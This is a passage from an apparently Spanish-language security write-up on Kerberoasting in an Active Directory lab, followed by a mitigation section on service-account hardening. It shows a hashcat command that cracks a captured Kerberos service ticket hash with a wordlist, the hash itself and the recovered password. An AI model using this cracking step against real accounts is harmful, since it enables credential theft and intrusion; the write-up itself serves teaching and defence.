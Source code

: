 Todos los ejemplos mostrados terminan con la obtención de un hash. La particularidad de este dato es que aunque en apariencia ilegible, puede ser sometido a ataques de fuerza bruta o de diccionario para recuperar la contraseña original en texto claro. 

- En hashcat, el modo para este tipo de hash kerberos es el 13100, intentaremos romper este cifrado 

{{< figure
    src="hashcat.png"
        >}}

{{< alert icon="fire" cardColor="#e63946" iconColor="#1d3557" textColor="#f1faee" >}}
Bingoo!!   contraseña obtenida 💀 
{{< /alert >}}


hashcat -m 13100 hash.txt /secLists/wordlist/rockyou.txt --force --show $krb5tgs$23$\*svc\_sql$DC.LUC4S$MSSQLSvc/dc-luc4s.dc.luc4s:1433\*$7e3cdf15f4d00e4b403eabc6 04e90299$70e493877c3044ec20fda47e7932c4a4ebed194409c2015f89494b88206561f2cf4f4ef97e82d8 a37b16707630b11613f5b7cf552c66a3ec280c1929dfc6031c68f5d1ad3d51daf7cecb84b38228abdfe1095 9ee2cec71485ca6e0e99f387167a01301f6ced61f5309343abaee6eaf26bf8066f1bb6ad71228243b25ee4f ed2564f1f96c87ec964b2adfa19c2f8490a7b659b7b7685ed1dd684b7260bcd1d4ff272cf232c56f633e138 145142f0357466bae8461c8ad5f26eb0acb8fe52f722994073a1fceafe7bc17d27faf1480c6660591c9be48 1481a637a39b7b49a053b22d239fef096d04c6d844565950d7cd7666a765651135654700e9a104c3ed9726e d76f5e88affebea0241676d5dc00e35234524d9ba04202131e8ee4a91d22bc5982c04e2412aa77006190de3 c2cef8bd8e09fe4fbc8fdd81d5dd7f0af5808f049a0a6f8a8389c94f3cfe8493d6127031b51a03e3888a076 046649dae4bb256567db3d37cbe42584905e4776a71f6b99b4d36c9bb9c7dda84c9b15e1c1f22707521c13e 4a42bf34e519a4e1243a9b7756aa11cbabd38acb95dfb0e7b014925256081414a643c7badd6a4b353e027f5 35fb3037c8dd9822520aa9435640a6ddcc2b94efb615d8496b9f5e61695cf2a0bfd85ffec666a89ba37d502

21f9b5dcd5f480af8a6ac021ba4c837a8e06865b32609a884cf0dcf12bc5c5b63b1956399c8cbbb2c85756f 4fe957b494ca8ace4ed7d7e065900834f286d4d8452b1d8c2e21340a290eb4657cea3ab8f0dc912c8b2d094 cae9bbc110b6267308429178b0da10472a9d3ca34c7a6a05c9c9295e572e7405b02bb99588d822f776a6be0 15f670299a533cb09050719b2e01a1f534d2892be387ea463666a34e483f445e4deb0414f624199a5765e4b 876d2e385374ac76cb97b3c6258843af6078e30ab667b9682dfff944ab2b0d25151b9a31fab0776dbbb5967 fad876232d97b4a5d1046bf58d2fc0a370032f055b172e030dba860568e345035be401aa1a4555b6636a694 e6a415d732d671eefc9a7162e8fc16c5318c46c079d7ac77c73788b730c346d87111a6b5d4e5754e7c2b970 854ee9ab984fa2d157523943fc76536d35f7b9e90722a0e95c8ac2a902f349338b18be32870b94c8234ed04 6045f2c02b322568eaa85a6a6e6f4c072774e0ac672651a185c62d4fae836871150f1370878c526bff9c3bf 060e9155310b051eac8471f4170a1bdc71292f1886a7b73229695c1785abba6d098932775771b57efd10e43 68c2ac6ec7c7eae4bd5a1d89d4d91eae1d3363ebeac0957e7478d7bcc29ea50664a079612aaaa4d2105ffe7 11078abf62c7eb184a03f4acea00b14f00566e80011505e0b0c25e85e557b167e14f62b4e05aaac85f6bd98 a3185c26879d35fbe0660910473af960a9166222ae271ce0f658:`Password123!`
## <a name="_page14_x28.35_y56.69"></a>**Mitigación**
Para reducir la superficie de ataque frente a Kerberoasting, es fundamental aplicar buenas prácticas de gestión en cuentas de servicio y en la configuración del entorno Active Directory: 

- **Contraseñas robustas y largas para cuentas de servicio**: Las contraseñas de cuentas de servicio deben ser únicas, complejas y con gran longitud. Esto dificulta que los hashes extraídos mediante Kerberoasting puedan ser resueltos con ataques de fuerza bruta o diccionario. Una buena práctica es aplicar frases de contraseña de más de 25–30 caracteres. 
- **Revisar periódicamente permisos y ACLs**: Las cuentas de servicio suelen acumular permisos innecesarios con el tiempo. Es importante auditar de manera regular las ACLs para identificar accesos excesivos y reducirlos al mínimo indispensable (principio de menor privilegio). 
- **Evitar cuentas de servicio con privilegios excesivos**: En lo posible, no asignar privilegios administrativos a cuentas de servicio. En su lugar, utilizar cuentas dedicadas con privilegios ajustados a la necesidad de la aplicación. 
- **Implementar cuentas de servicio administradas (gMSA)**: En lugar de contraseñas fijas y difíciles de rotar, se recomienda usar **Group Managed Service Accounts (gMSA)**, que permiten que las contraseñas se gestionen y roten automáticamente de forma segura. 
- **Monitoreo y alertas**: Detectar comportamientos anómalos es clave. Solicitudes inusuales de TGS hacia servicios poco utilizados o desde usuarios que normalmente no interactúan con esos servicios pueden indicar un intento de Kerberoasting. 
- **Rotación periódica de contraseñas**: Establecer políticas de rotación para contraseñas de cuentas de servicio que no utilicen gMSA, reduciendo así el tiempo de exposición en caso de compromiso. 

